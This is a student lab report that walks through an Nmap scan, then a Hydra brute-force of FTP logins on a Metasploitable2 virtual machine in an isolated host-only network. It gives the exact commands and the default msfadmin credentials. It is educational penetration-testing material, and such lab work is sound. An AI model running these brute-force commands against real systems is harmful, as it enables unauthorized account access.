 # 🔐 Cybersecurity Lab Report: Brute-Forcing FTP Login with Hydra

**Prepared by:** Abdul Rahman Said  
**Date:** June 26, 2025

---

## 🧰 Lab Overview

This lab focuses on demonstrating brute-force attack techniques using **Hydra** on the **FTP service** of a vulnerable machine (**Metasploitable2**) in a secure lab environment using **Kali Linux**.

---

## 🖥️ Environment Configuration

| Component         | Description                          |
|------------------|--------------------------------------|
| Host OS          | Windows                              |
| Virtual Machines | Kali Linux, Metasploitable2          |
| Network Type     | Host-only (VMnet1 - 192.168.21.0/24) |
| Tools Used       | Hydra, FTP, Nmap                     |

---

## ✅ Step-by-Step Execution

### 🔹 Step 1: Scan Target with Nmap
Command:
```bash
nmap 192.168.21.128
```
Result confirmed **FTP (port 21)** was open.

---

### 🔹 Step 2: Create Wordlists

We created simple user and password wordlists to simulate brute-force attack.

```bash
echo msfadmin > users.txt
echo msfadmin > passwords.txt
```

Files created in the working directory:
- `users.txt` contains potential usernames
- `passwords.txt` contains potential passwords

---

### 🔹 Step 3: Execute Hydra Attack on FTP

Command:
```bash
hydra -L users.txt -P passwords.txt 192.168.21.128 ftp
```

✅ Hydra successfully discovered valid credentials:
- **Username:** msfadmin
- **Password:** msfadmin

---

### 🔹 Step 4: Verify Credentials

Manually tested credentials using FTP:

```bash
ftp 192.168.21.128
```
Login was successful using `msfadmin/msfadmin`.

---

## 🧾 Conclusion

✅ Successfully:
- Identified open FTP port using Nmap
- Created basic wordlists
- Performed brute-force attack using Hydra
- Validated discovered credentials

⚠️ This exercise was done in a **controlled lab environment**. Brute-forcing is **illegal** and unethical on systems you do not own or have explicit permission to test.

---

📌 **Disclaimer:**  
This lab was conducted for educational purposes only in a fully isolated and ethical testing environment.